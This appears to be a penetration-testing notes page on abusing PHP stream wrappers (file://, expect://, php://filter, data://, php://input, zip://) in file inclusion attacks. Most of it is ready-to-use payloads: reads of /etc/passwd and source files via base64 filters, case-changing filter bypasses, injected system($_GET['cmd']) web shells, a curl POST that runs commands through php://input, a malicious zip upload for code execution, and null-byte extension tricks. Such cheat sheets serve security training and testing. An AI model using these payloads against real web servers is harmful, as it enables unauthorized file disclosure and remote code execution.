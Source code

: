# Wrappers

## Theory

The English word wrapper designates a packaging or wrapping. In the context of software , this term refers to programs or code that surrounds other program components. The wrappers can be used for various reasons: often used to improve the compatibility and interoperability between different software structures or to represent something visually, eg, the wrappers HTML or CSS.

If within a program you have to use functions or blocks of programs in another programming language, these elements can be "wrapped". The main program only communicates with the wrapper and this is responsible for transmitting the commands to the wrapped program and returning the results to the main program. The wrapper is the only component of the process that is in direct contact with both pieces of software.

PHP has a number of wrappers that can often be abused to bypass various input filters. The following wrappers to be named are compatible with PHP, but some of them can also be used in other programming languages (to be specified).

## Cheat sheet

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi--rfi-using-wrappers" %}

{% embed url="https://highon.coffee/blog/lfi-cheat-sheet" %}

{% hint style="success" %}
Note: Wrappers can be chained.
{% endhint %}

## Wrappers

### Wrapper file://

```bash
..?filename=file:///etc/passwd # List files.
file:///etc/passwd # Open file in a browser.
```

This wrapper is also compatible with some Python libraries. Example:

```python
python3
>>> import urllib.request
>>> filename = urllib.request.urlretrieve('http://127.0.0.1/test.jpg')
>>> filename
'/tmp/tmp0tj2qp4g' # Random filename in the /tmp folder
>>> filename = urllib.request.urlretrieve('file:///home/user/test.jpg')
>>> filename
'/home/user/test.jpg' # Original filename
```

### Wrapper expect://

```bash
..?filename=expect://[COMMAND]
..?filename=expect://whoami
```

The **expect** wrapper in PHP helps in the interaction with process flows. This extension is disabled by default, but can be very useful if enabled.

### Wrapper php://filter

View the content of a file in base64. This is useful for PHP files, since remember that the LFI interprets PHP code, but would not show the content. With the use of this wrapper we can see the content encoded in base64 and then decode it and see the content:

{% hint style="info" %}
The "php://filter" part is case insensitive, so we can bypass it.
{% endhint %}

```bash
php://filter/convert.base64-encode/resource=<PATH TO FILE>
php://filter/read=convert.base64-encode/resource=<PATH TO FILE>
php://filter/convert.base64-decoder/resource=/etc/passwd # Decode now
pHp://FilTer/convert.base64-encode/resource=<PATH TO FILE> # Note the capitalization for the bypass.
php://filter/read=/resource=/etc/passwd
```

### Wrapper php://filter + zlib (compression)

It can be chained with a compression wrapper for large files:

```bash
php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```

To read the compression data it is necessary to decode the base64 and read the resulting data using:

```bash
php -a # Starts a php console
readfile('php://filter/zlib.inflate/resource=<FILE>');
```

### Wrapper php://filter/read=string.rot13

```bash
# View the contents of a file in a string rotated 13 times (Caesar encryption):
..?filename=php://filter/read=string.rot13/resource=<PATH TO FILE>
# To rotate it to the "normal state", we do:
echo "<STRING ROT13> | tr '[C-ZA-Bc-za-b]' '[P-ZA-Op-za-o]'"
```

### Wrapper data://

The data wrapper can be used to include external data, including PHP code. It is possible to use it only if the **allow\_url\_include** setting is enabled in the PHP configuration. This can be found in the `/etc/php/X.Y/apache2/php.ini` file for Apache and in `/etc/php/X.Y/fpm/php.ini` for php-fpm used by Nginx, where X.Y is the installed PHP version.

The following procedure must be followed:

```bash
# We encode the PHP payload in base64:
echo -n "<?php system(\$_GET['cmd']);?>" | base64
# Then we make the URL request with the base64 and the wrapper data:
...?filename=data://text/plain;base64,<BASE64>=&cmd=id

# Another way in plaintext:
...=filename=data:text/plain,<?php echo system("whoami"); ?>
# Other payloads:
filename=data://text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?> # Get in base64, the index.php
filename=data://text/plain,<?php phpinfo(); ?>
```

### Wrapper php://input

Like the data wrapper, the input wrapper can be used to include external inputs and execute code. It also needs the **allow\_url\_include** setting enabled. The following curl command sends a POST request with a system command and then includes it using **php://input**, which is executed by the page.

```bash
curl -s -X POST --data "<?php system('id'); ?>" "<URL>?filename=php://input"
```

Another example:

![](../../../.gitbook/assets/wrapper\_input.png)

### Wrapper zip://

The zip wrapper can be useful in combination with file uploads. If the website allows uploading arbitrary files, an attacker can upload a malicious zip file and include PHP code. This wrapper is not enabled by default and can be installed with the following command: `apt install phpX.Y-zip` (X.Y would be the PHP version).

We must follow the following procedure:

```bash
# Create a malicious file:
echo -n "<?php system(\$_GET['cmd']); ?>" > exec.php
zip malicious.zip exec.php
rm exec.php
```

Next, copy **malicious.zip** to the webroot to simulate the upload (with Burpsuite we select the `Paste from file` option and select the **malicious.zip** → [Paste a file (POST)](../../../general/proxies-and-pivoting/burpsuite.md#paste-a-file-post)).

The files in the zip archive can be referenced using the **#** symbol, which must be encoded as a URL in the request. For example, the URL below can be used to include exec.php and then execute the code using the cmd parameter.

```bash
<URL>?filename=zip://malicious.zip%23exec.php&cmd=id # "#" is encoded in %23 to prevent the browser from recognizing it as a fragment.
<URL>?filename=zip://malicious.zip%23exec&cmd=id # The same but without the file extension.
```

### Tips

* Sometimes, if we want to access a PHP file, we must not include the extension because it can be that behind, it is adding that extension. Example: `...?filename=file:///var/www/html/asd` (remember that it will be interpreted, but then we can use other wrappers like **php://filter** to see the content of this one).
* Make use of the null byte (**%00**) to avoid adding an extension or to interpret a file that we have uploaded. Ex: The file **shell.php.jpg** to be interpreted we do: `shell.php%00`
